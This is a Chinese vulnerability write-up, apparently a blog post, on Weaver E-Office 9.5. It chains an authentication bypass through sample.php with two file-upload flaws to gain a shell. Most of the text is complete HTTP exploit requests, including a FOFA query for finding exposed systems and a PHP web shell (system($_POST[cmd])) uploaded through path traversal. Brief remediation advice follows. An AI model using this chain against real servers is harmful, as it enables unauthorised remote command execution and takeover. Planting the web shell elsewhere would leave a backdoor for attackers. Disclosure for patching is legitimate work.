









# 泛微 E-Office sample权限绕过+文件上传组合漏洞Getshell

### 0x01 产品简介

   [泛微](https://so.csdn.net/so/search?q=%E6%B3%9B%E5%BE%AE&spm=1001.2101.3001.7020 "   泛微")E-Office是一款[标准化](https://so.csdn.net/so/search?q=%E6%A0%87%E5%87%86%E5%8C%96&spm=1001.2101.3001.7020)的协同 OA 办公软件，泛微协同办公产品系列成员之一,实行通用化产品设计，充分贴合企业管理需求，本着简洁易用、高效智能的原则，为企业快速打造移动化、无纸化、数字化的办公平台。

### 0x02 漏洞概述

  [泛微](https://so.csdn.net/so/search?q=%E6%B3%9B%E5%BE%AE&spm=1001.2101.3001.7020)e-office 存在权限绕过漏洞（测试页面sample.php），攻击者可以通过此页面获取有效cookie绕过权限校验，利用后台文件上传漏洞上传后门文件获取服务器控制权限。

### 0x03 影响范围

 e-office=9.5

### 0x04 复现环境

FOFA：app="泛微-EOffice"



### 0x05 漏洞复现 

**获取有效cookie**

```cobol
GET /sample.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
```



**文件上传PoC-1**

```cobol
POST /inc/ext/upload/file-upload.php HTTP/1.1
Host: your-ip
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryc3kzQm4dBRhin8Dk
Cookie: 获取到的cookie LOGIN_LANG=cn
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

------WebKitFormBoundaryc3kzQm4dBRhin8Dk
Content-Disposition: form-data; name="userfile"; filename="1.php4"
Content-Type: image/jpeg

<?php system($_POST[cmd]);unlink(__FILE__);?>
------WebKitFormBoundaryc3kzQm4dBRhin8Dk--
```



 获取上传路径

```cobol
GET /general/address/view/get-images.php?alb_id=11&start=0&limit=1 HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Cookie: 获取到的cookie LOGIN_LANG=cn;
Accept-Encoding: gzip
```



验证并命令执行

 **文件上传PoC-2**

```cobol
POST /general/system/interface/theme_set/save_image.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarymzrNfz1ehkVc9A3Z
Cookie: 获取到的cookie LOGIN_LANG=cn;

------WebKitFormBoundarymzrNfz1ehkVc9A3Z
Content-Disposition: form-data; name="image_type"

../../clientTools
------WebKitFormBoundarymzrNfz1ehkVc9A3Z
Content-Disposition: form-data; name="upfile"; filename="1.php"
Content-Type: image/jpeg

<?php system($_POST[cmd]);unlink(__FILE__);?>
------WebKitFormBoundarymzrNfz1ehkVc9A3Z
Content-Disposition: form-data; name="theme_name"

theme3
------WebKitFormBoundarymzrNfz1ehkVc9A3Z--
```

 

获取上传路径及文件名

```cobol
GET /general/down.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Cookie: 获取到的cookie LOGIN_LANG=cn;
Accept-Encoding: gzip
```



验证并命令执行



### 0x06 修复建议 

官方已修复该漏洞，请用户联系厂商修复漏洞：https://www.weaver.com.cn/

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。
